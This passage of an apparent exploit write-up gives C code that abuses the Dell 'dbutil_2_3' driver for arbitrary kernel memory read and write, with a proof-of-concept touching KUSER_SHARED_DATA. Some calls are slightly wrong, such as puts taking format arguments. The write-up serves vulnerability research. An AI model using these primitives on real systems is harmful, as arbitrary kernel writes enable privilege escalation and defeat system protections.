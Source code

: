     if (!DeviceIoControl(hDevice, ARBITRARY_READ_IOCTL, &lpBuffer, sizeof(lpBuffer), &lpBuffer, sizeof(lpBuffer), &lpBytesReturned, NULL)) {
        puts("DeviceIoControl error in 'memoryRead'.");
    }
    
    return lpBuffer.value;
}
{% endhighlight %}

The second one is for writing kernel memory, by passing the device handle, a kernel address and a 64-bit value to write.

{% highlight c %}
/**
 * Write kernel space memory.
 * 
 * @param HANDLE hDevice The handle to the vulnerable driver.
 * @param uint8_t* address Kernel space address to write to.
 * @param uint8_t* user_address The 64-bit value to write.
 * @return uint8_t* The memory byte stream.
 */
void memoryWrite(HANDLE hDevice, uint8_t* kernel_address, uint8_t* user_address) {
    uint32_t lpBytesReturned;
    PACKET lpBuffer;

    lpBuffer.user_address = user_address;
    lpBuffer.user_address_offset = 0;
    lpBuffer.kernel_address = kernel_address;

    if (!DeviceIoControl(hDevice, ARBITRARY_WRITE_IOCTL, &lpBuffer, sizeof(lpBuffer), &lpBuffer, sizeof(lpBuffer), &lpBytesReturned, NULL)) {
        puts("DeviceIoControl error in 'memoryWrite'.");
    }
}
{% endhighlight %}

The code below is proof-of-concept code on how to use these functions. We read from and write to the address `0xfffff78000000000`, which holds the `KUSER_SHARED_DATA` struct on 64-bit Windows machines. The first 64-bits of this struct hold `TickCountLowDeprecated` (a deprecated `ULONG`) and `TickCountMultiplier` also a `ULONG`.

{% highlight c %}
HANDLE hDevice = CreateFileW(L"\\\\.\\dbutil_2_3", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);

if (hDevice == INVALID_HANDLE_VALUE) {
    puts("Failed to open handle to kernel driver.");
    return;
}

// Reading from 0xfffff78000000000
uint64_t initialValue = memoryRead(hDevice, 0xfffff78000000000);
printf("0xfffff78000000000: %x.", initialValue);

// Writing to 0xfffff78000000000
memoryWrite(hDevice, 0xfffff78000000000, 1);
puts("Wrote 1 to 0xfffff78000000000.");

// Recovering 0xfffff78000000000
memoryWrite(hDevice, 0xfffff78000000000, initialValue);
puts("Recovered 0xfffff78000000000 to %x.", initialValue);
{% endhighlight %}

